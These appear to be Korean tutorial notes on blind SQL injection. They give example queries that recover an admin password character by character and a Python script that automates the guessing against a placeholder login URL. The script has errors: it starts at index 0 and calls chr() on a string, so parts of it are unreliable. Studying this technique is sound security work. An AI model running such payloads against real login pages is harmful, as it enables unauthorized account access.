             # 첫 번째 문자(substr(upw, 1, 1)) 구하기
             SELECT * FROM user_table WHERE uid=‘admin’ AND ascii(substr(upw, 1, 1))=114 --' AND upw=‘’ # False (114 = 'r')
            SELECT * FROM user_table WHERE uid=‘admin’ AND ascii(substr(upw, 1, 1))=115 --' AND upw=‘’ # True (115 = 's')

            # 두 번째 문자(substr(upw, 2, 1)) 구하기
            SELECT * FROM user_table WHERE uid=‘admin’ AND ascii(substr(upw, 2, 1))=115 --‘ AND upw=‘’ # False (115 = 's')
            SELECT * FROM user_table WHERE uid=‘admin’ AND ascii(substr(upw, 2, 1))=116 --' AND upw=‘’ # True (116 = 't')
            ```
            | 항목 | 입력 |
            |:---:|------|
            | **uid** | ```admin' AND ascii(substr(upw, 시작위치, 1))=아스키코드 --``` <br/> &nbsp;&nbsp; - ```시작위치```: 1에서부터 하나씩 늘려가며 검사함 <br/> &nbsp;&nbsp; - ```아스키 코드```: 비밀번호의 경우 일반적으로 알파벳 대소문자, 숫자, 특수문자 범위로 지정함 <br/> &nbsp;&nbsp; - ```--``` 문자: 해당 문자 뒤에 오는 문장을 주석 처리하여 SQL 쿼리로 실행되지 않도록 만듦 |
            | **upw** | 아무 문자열이나 입력 가능 (야기서는 아무것도 입력하지 않음) |
        + 공격 자동화 스크립트 작성 방법
            ```python
            #!/usr/bin/python3

            import requests
            import string

            url = 'https://example.com/login' # 로그인 기능의 URL 입력
            params = {
                'uid': '',
                'upw': ''
            }

            # 비밀번호가 포함될 수 있는 문자(알파벳, 숫자, 특수문자)를 string 모듈을 사용해 생성함
            tc = string.ascii_letters + string.digits + string.punctuation
            # abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~

            # uid 입력값에 해당하는 변수 query
            query = '''
            admin' and ascii(substr(upw, {idx}, 1)) = {val}--
            '''

            # password를 저장할 변수
            password = ''

            # 길이를 먼저 구하고 길이만큼 반복문을 돌릴 수도 있음
            for idx in range(0, 20): # 한 바이트씩 모든 문자를 비교하는 반복문
                for ch in tc:
                    params['uid'] = query.format(idx=idx, val=ord(ch)).strip("\n")
                    c = requests.get(url, params=params)
                    print(c.request.url)
                    if c.text.find("Login success") != -1: # 반환 결과가 참일 경우 페이지에 표시되는 "Login success" 문자열을 찾음
                        password += chr(ch) # 해당 결과를 반환하는 문자를 password 변수에 추가함
                        break
            